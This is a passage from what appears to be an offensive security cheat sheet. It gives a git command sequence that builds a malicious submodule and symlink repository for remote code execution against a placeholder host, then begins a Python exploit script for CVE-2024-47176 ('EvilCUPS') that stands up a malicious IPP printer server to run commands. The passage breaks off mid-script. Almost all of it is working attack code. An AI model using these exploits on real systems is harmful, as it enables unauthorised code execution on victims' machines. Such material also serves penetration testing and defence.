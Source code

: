 ### RCE Repository

```console
$ git clone http://<RHOST>:3000/<USERNAME>/git_rce.git
$ git submodule add --name x/y http://<RHOST>:3000/<USERNAME>/hook.git A/modules/x
$ git commit -m "Add submodule"
$ printf .git > dotgit.txt
$ git hash-object -w --stdin < dotgit.txt > dot-git.hash
$ printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
$ git update-index --index-info < index.info
$ git commit -m "Add symlink"
$ git push
```

Compile the project for `Remote Code Execution (RCE)`.

## CVE-2024-47176: EvilCUPS

> https://github.com/IppSec/evil-cups

```python
#!/usr/bin/env python3
# Based off of EvilSocket's Exploit Script
# Few changes to make it more relaible

import socket
import threading
import time
import sys

from ippserver.server import IPPServer
import ippserver.behaviour as behaviour
from ippserver.server import IPPRequestHandler
from ippserver.constants import (
    OperationEnum, StatusCodeEnum, SectionEnum, TagEnum
)
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest

class ServerContext:
    def __init__(self, server):
        self.server = server
        self.server_thread = None

    def __enter__(self):
        print(f'IPP Server Listening on {server.server_address}')
        self.server_thread = threading.Thread(target=self.server.serve_forever)
        self.server_thread.daemon = True
        self.server_thread.start()

    def __exit__(self, exc_type, exc_value, traceback):
        print('Shutting down the server...')
        self.server.shutdown()
        self.server_thread.join()

def handle_signal(signum, frame):
    raise KeyboardInterrupt()

class MaliciousPrinter(behaviour.StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(MaliciousPrinter, self).__init__()

    def printer_list_attributes(self):
        attr = {
```